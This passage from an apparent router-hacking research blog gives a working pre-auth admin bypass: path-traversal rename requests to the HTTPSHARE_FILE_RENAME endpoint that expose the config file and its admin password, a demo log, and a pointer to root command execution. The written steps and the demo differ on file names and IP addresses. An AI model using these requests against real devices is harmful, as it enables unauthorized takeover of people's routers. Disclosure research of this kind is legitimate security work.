 Both files are within the ***/etc_rw*** directory, and are two directories deep, so all we need to do is the following:
- Rename ***/etc_rw/wifi*** to ***/etc_rw/wifi_backup***
- Rename ***/etc_rw/nv*** to ***/etc_rw/wifi***
- Rename ***/etc_rw/wifi/main*** to ***/etc_rw/wifi/qrcode_multi_ssid_wifikey.png***

Then, we can simply send the following request to get the config that contains the admin password (don't forget to rename everything back after!):

```
http://192.168.2.1/img/qrcode_multi_ssid_wifikey.png/cfg
```

And that is the admin bypass, here is a demo:

```
[*] Sending data: goformId=HTTPSHARE_FILE_RENAME&OLD_NAME_SD_CARD=%2Fmmc2%2F.%2F..%2F..%2F..%2Fetc_rw%2Fwifi&NEW_NAME_SD_CARD=%2Fmmc2%2F.%2F..%2F..%2F..%2Fetc_rw%2Fwifi_backup
[*] Status Code: 200
[*] Response Body: {"result":"success"}

[*] Sending data: goformId=HTTPSHARE_FILE_RENAME&OLD_NAME_SD_CARD=%2Fmmc2%2F.%2F..%2F..%2F..%2Fetc_rw%2Fnv%2Fbackup&NEW_NAME_SD_CARD=%2Fmmc2%2F.%2F..%2F..%2F..%2Fetc_rw%2Fnv%2Fqrcode_ssid_wifikey.png
[*] Status Code: 200
[*] Response Body: {"result":"success"}

[*] Sending data: goformId=HTTPSHARE_FILE_RENAME&OLD_NAME_SD_CARD=%2Fmmc2%2F.%2F..%2F..%2F..%2Fetc_rw%2Fnv&NEW_NAME_SD_CARD=%2Fmmc2%2F.%2F..%2F..%2F..%2Fetc_rw%2Fwifi
[*] Status Code: 200
[*] Response Body: {"result":"success"}

[*] Sending GET HTTP request to http://192.168.1.1/img/qrcode_ssid_wifikey.png/cfg
[+] Download complete, file saved to pulled_cfg
[+] Recovered admin password: admin

[*] Sending data: goformId=HTTPSHARE_FILE_RENAME&OLD_NAME_SD_CARD=%2Fmmc2%2F.%2F..%2F..%2F..%2Fetc_rw%2Fwifi&NEW_NAME_SD_CARD=%2Fmmc2%2F.%2F..%2F..%2F..%2Fetc_rw%2Fnv
[*] Status Code: 200
[*] Response Body: {"result":"success"}

[*] Sending data: goformId=HTTPSHARE_FILE_RENAME&OLD_NAME_SD_CARD=%2Fmmc2%2F.%2F..%2F..%2F..%2Fetc_rw%2Fnv%2Fqrcode_ssid_wifikey.png&NEW_NAME_SD_CARD=%2Fmmc2%2F.%2F..%2F..%2F..%2Fetc_rw%2Fnv%2Fbackup
[*] Status Code: 200
[*] Response Body: {"result":"success"}

[*] Sending data: goformId=HTTPSHARE_FILE_RENAME&OLD_NAME_SD_CARD=%2Fmmc2%2F.%2F..%2F..%2F..%2Fetc_rw%2Fwifi_backup&NEW_NAME_SD_CARD=%2Fmmc2%2F.%2F..%2F..%2F..%2Fetc_rw%2Fwifi
[*] Status Code: 200
[*] Response Body: {"result":"success"}
```

With the admin bypass we needed, we can use any of the post-auth command injections to run arbitrary commands as root on the router. We can also run any cross-compiled binary we want; so, now it's just a matter of writing some code.

# Conclusion

In this blog, we achieved the initial goal of the project - pre-auth code execution over LAN, using a couple of bugs we found while auditing the code. In the next blog, we will do something intriguing with our newfound privileges.